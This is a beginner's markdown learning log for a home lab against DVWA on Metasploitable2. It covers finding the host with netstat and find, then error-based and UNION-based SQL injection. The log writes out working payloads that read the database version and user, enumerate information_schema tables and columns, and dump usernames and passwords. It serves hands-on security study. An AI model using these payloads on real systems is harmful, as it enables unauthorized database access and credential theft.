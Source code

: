 # 🛠️ Day #6 – The Hunt for the Real Host

#### (Screenshots for the day can be seen [here](../Screenshots/Day6.md). Judge away, oh mighty Judgers! )

## 🧱 Block 1: Environment Triage

### 🎯 Block 1 Goal

Run targeted recon across each VM I have to determine where DVWA is actually installed and what service is exposing it.

#### Subtasks for Block 1

- [x] 🔎 Check running services on Kali, Metasploitable2, and host machine
  - use `netstat`, `ss`, or `ps aux | grep apache` to find active web services
  - validate which systems have listeners on port `80` or `8080`
- [x] 📂 File system sweep
  - look for `/var/www/html/dvwa` or `/config/config.inc.php`
  - use `find / -name "dvwa"` if needed (I've been told to prepare to scroll on this one)
- [x] Hit each candidate IP in the browser
  - Test `localhost` and each VM's IP address
  - Confirm which one responds with DVWA's login page
- [x] Verify Apache or other web server logs
  - try `sudo tail -f /var/log/apache2/access.log`
  - interact with DVWA and observe which machine responds

### 💻 Commands Used

```bash
sudo netstat -tulnp | grep :80
sudo netstat -tulnp | grep :8080
ps aux | grep apache
find / -name "config.inc.php" 2>/dev/null
brave-browser --proxy-server="127.0.0.1:8080"
```

### 📥 Outputs to look for

- IP + port pairing that *definitely* points to the DVWA host
- Apache or alternative HTTP service actively responding
- Location of `config.inc.php` or DVWA root directory
- Access logs showing actual requests hitting the system

#### 🔧 What I was doing

After fighting with DVWA's security level last week, I started fresh with full environmental checks:

- Made sure Metasploitable was running and pingable from Kali
- Verified DVWA was reachable from the browser
- Used `brave-browser --proxy-server="127.0.0.1:8080"` to route traffic through Burp Suite (I'll set up automations later, right now I'm trying to get some muscle memory)
- Ensured DVWA's security level STAYED on `low`

Once the setup was solid, I moved on to testing the input field under the SQL Injection module.

#### 😎 What went right

I slowly ramped up my tests:

- Entered `1` then `2` in the input field. Both returned the employee data I expected meaning I could dig deeper and try to figure out how many columns were in their SQL tables.
- I tried `ORDER BY` statements -- got errors back meaning "Error-based SQLi" is on the table!
- Finally, I tried: 
  
```sql 
 UNION SELECT null, null-- -
 UNION SELECT version(), user()-- -
```

- Which returned:

```sql
First name: 5.0.51a-3ubuntu5
Surname: root@localhost
```

I paused for a happy dance because getting the `root@localhost` means I successfully bypassed input controls, pulled live data from the backend database, AND learned the DB version and user context!

#### 🧠 Some new things I learned

- What does `UNION SELECT` actually mean?
  
  I am new to SQL tables and the jargon has really thrown me for a loop. Now I know the `UNION` keyword in SQL lets you combine results from two `SELECT` statements as long as they have the same number of columns and compatible data types in each column

  So, instead of:

  ```sql
  SELECT first_name, last_name FROM users WHERE user_id = '1'
  ```

  I injected this:

  ```sql
  ' UNION SELECT version(), user()-- - 
  ```

  This merged two `SELECT`s, the original one, and my custom one asking for the DB version and current user. GIVE ME ALL THE SECRETS!

- Why did this work?
  
  I confirmed the number of output columns using `ORDER BY` until I hit an error at `3`. I knew the page displayed `First Name` and `Surname` from my initial input field tests of `1` and `2`, and I knew `version()` and `user()` are built-in MySQL functions that return...exactly what they sound like (Yay!). By sending them in a `UNION SELECT`, I got the app to render that data directly to the page.

---

## 🧱 Block 2: Database Discovery & Table Mapping

### 🎯 Block 2 Goal

Use SQL injection to enumerate DVWA's database structure -- starting with **table names**, then **column names**, and finally, **data extraction**.

#### Subtasks for Block 2

- [x] Confirm database name so I know I'm hitting the right target and SQLi is functional
  - use `' UNION SELECT database(), null-- -`
- [x] List all of the tables in the database
  - use `' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database()-- -`
    - This pulls the names of all tables within the current database context
    - Screenshots: `users`, `logins`, `credentials`
- [x] Find columns in a target table
  - use `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'-- -`
- [x] Dump interesting data from a table
  - try `' UNION SELECT user, password FROM users-- -`
